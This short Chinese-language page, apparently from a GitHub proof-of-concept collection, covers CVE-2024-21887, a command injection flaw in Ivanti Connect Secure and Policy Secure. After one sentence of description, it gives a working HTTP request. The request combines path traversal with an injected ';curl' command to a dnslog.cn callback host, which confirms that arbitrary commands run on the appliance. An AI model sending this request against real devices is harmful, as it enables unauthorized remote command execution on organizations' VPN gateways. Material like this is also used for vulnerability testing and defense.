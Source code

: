 ## Ivanti_Connect_Secure远程命令注入漏洞(CVE-2024-21887)

Ivаｎti Cоnnесt Sесurе（9.х、22.х）和 Ivаnti Pоliсу Sесurе 的 Wеb 组件中存在一个命令注入漏洞，使得经过身份验证的管理员能够发送特别构建的请求并在设备上执行任意命令 。

## poc
```
GET /api/v1/totp/user-backup-code/../../license/keys-status/%3bcurl%20z5i19y.dnslog.cn HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2224.3 Safari/537.36
Connection: close
Accept-Encoding: gzip, deflate
```

![df97ad07a0d2c2d795cffdd955b1a38b](https://github.com/wy876/POC/assets/139549762/6c54dede-fb0f-4749-99c6-1324cae93042)
